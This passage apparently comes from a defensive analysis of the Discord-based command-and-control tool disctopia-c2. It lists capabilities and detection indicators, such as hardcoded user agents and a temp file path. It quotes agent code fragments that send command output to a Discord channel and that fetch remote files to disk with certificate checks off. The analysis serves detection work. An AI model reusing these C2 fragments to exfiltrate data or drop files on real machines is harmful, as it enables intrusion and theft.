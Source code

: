   - If the length of the results is bigger than 4000 then its written to the following location: `%temp%\response.txt`

    ```python
    .....
    if int(word_list[0]) == int(ID):
        if len(out) > 4000:
            path = os.environ["temp"] +"\\response.txt"         
            with open(path, 'w') as file:
                file.write(out)
            await context.message.channel.send(f"**Message was too large, sending a file with the response instead**")
            await context.message.channel.send(file=discord.File(path))
            os.remove(path)
            .....
    ```

### Download Files

- Description: Download files from the agent
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L173
- Indicators:
  - Communication via the discord API using (discord.py) uses the following hardocded user-agent

  ```python
  user_agent = 'DiscordBot (https://github.com/Rapptz/discord.py {0}) Python/{1[0]}.{1[1]} aiohttp/{2}'
  self.user_agent = user_agent.format(__version__, sys.version_info, aiohttp.__version__)
  ```

### Upload Files

- Description: Upload files to agent
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L173
- Indicators:
  - Uplaoded files are stored in the `uploads` directory
  - Files are requested using the requests library which contain the hardcoded user-agent `python-requests/(Version)`

  ```python
  try:
      r = requests.get(url, allow_redirects=True, verify=False)
      open(fr"{path}\{name}", 'wb').write(r.content)
      my_embed = discord.Embed(title=f"{name} has been uploaded to Agent#{ID}", color=0x00FF00)
      await context.message.channel.send(embed=my_embed)
  except Exception as e:
      my_embed = discord.Embed(title=f"Error while uploading {name} to Agent#{ID}:\n{e}", color=0xFF0000)
      await context.message.channel.send(embed=my_embed)  
  ```
